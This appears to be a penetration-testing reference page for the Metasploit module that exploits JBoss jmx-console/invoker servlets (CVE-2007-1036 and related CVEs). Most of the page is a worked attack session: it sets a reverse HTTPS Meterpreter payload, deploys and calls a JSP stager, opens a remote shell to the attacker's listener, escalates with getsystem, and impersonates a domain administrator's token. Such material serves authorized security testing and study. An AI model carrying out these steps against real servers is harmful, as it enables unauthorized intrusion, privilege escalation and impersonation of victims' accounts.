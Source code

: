 icon:fontawesome/solid/unlock-keyhole

# CVE-2007-1036

Apache Tomcat / JBoss EJBInvokerServlet / JMXInvokerServlet Multiple Vulnerabilities

- CVE-2007-1036
- CVE-2012-0874
- CVE-2013-4810

This module can be used to execute a payload on JBoss servers that have an exposed "jmx-console" application. The payload is put on the server by using the jboss.system:MainDeployer functionality. To accomplish this, a temporary HTTP server is created to serve a WAR archive containing our payload. This method will only work if the target server allows outbound connections to us.

## Usage

```bash
msf5 use exploit/multi/http/jboss_invoke_deploy
```

## Examples

```bash
msf5 use exploit/multi/http/jboss_invoke_deploy
msf5 exploit(multi/http/jboss_invoke_deploy) > SET RHOSTS 10.10.10.10
msf5 exploit(multi/http/jboss_invoke_deploy) > SET RHPORT 8180
msf5 exploit(multi/http/jboss_invoke_deploy) > SET PAYLOAD windows/meterpreter/reverse_https
msf5 exploit(multi/http/jboss_invoke_deploy) > SET LHOST 10.10.10.1
msf5 exploit(multi/http/jboss_invoke_deploy) > SET LPORT 8443
msf5 exploit(multi/http/jboss_invoke_deploy) > run

[*] Started HTTPS reverse handler on https://10.10.10.1:8443
[*] Using manually select target: "Windows Universal"
[*] Deploying stager
[*] Calling stager: /EnyMtdpsHwfYUU/idIzmUiHUjmzdC.jsp
[*] Uploading payload through stager
[*] Calling payload: /BiAbpcPbeQku/MAhczELmEptIOJe.jsp
[*] Removing payload through stager
[*] Removing stager
[*] https://10.10.10.1:8443 handling request from 10.10.10.10; (UUID: 4goaaaae) Staging x86 payload (177241 bytes) ...
[*] Meterpreter session 1 opened (10.10.10.1:8443 -> 10.10.10.10:50537) at 1970-01-01 00:01:00 +0200

meterpreter > getsystem
...got system (via technique 1).
meterpreter > load incognito
Loading extension incognito...Success.
meterpreter > list_tokens -u

Delegation Tokens Available
========================================
offsec.nl\adm-JohnDo

meterpreter > impersonate_token offsec.nl\adm-JohnDo
[+] Delegation token available
[+] Successfully impersonated user offsec.nl\adm-JohnDo
meterpreter > getuid
Server username: offsec.nl\adm-JohnDo
```

## References

- [Nessus.org](http://www.nessus.org/u?74979c27)
- [Tenable.com - ID 70414](https://www.tenable.com/plugins/nessus/70414)
